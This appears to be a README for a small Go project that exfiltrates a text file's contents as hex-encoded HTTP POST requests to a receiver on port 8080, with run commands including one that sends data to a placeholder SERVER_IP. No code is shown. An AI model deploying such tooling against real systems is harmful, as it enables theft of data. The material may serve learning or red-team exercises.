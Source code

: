 # Data Exfiltration

Data Exflitration using HTTP POST requests

## Description

The project consists of two folder one for the sender and one for the recevier. The send program uses the "textfile.txt" as the data to be exfiltrated. The receive program waits for Post requests at port 8080 and creates an "output.txt." The file "output.txt" has the hexadecimal data which is then converted to ASCII in the "decoded.txt" file when the server is closed with a key interrupt (e.g. CTRL-C).

## Executing program

### Running the receiver 

* Make sure you are in the recv folder
* The IP of the receiver/server will be printed to the console incase the sender does not know it

```
go run main.go
```

### Running the sender
* Make sure you are in the send folder
* Server IP is formated as A.B.C.D

```
go run main.go -h SERVER_IP
```

## Future Additions 

* Change the output.txt to also include the source to seperate packets from different address
* Add a signal to allow for decoding of output.txt at anytime instead of just when the server closes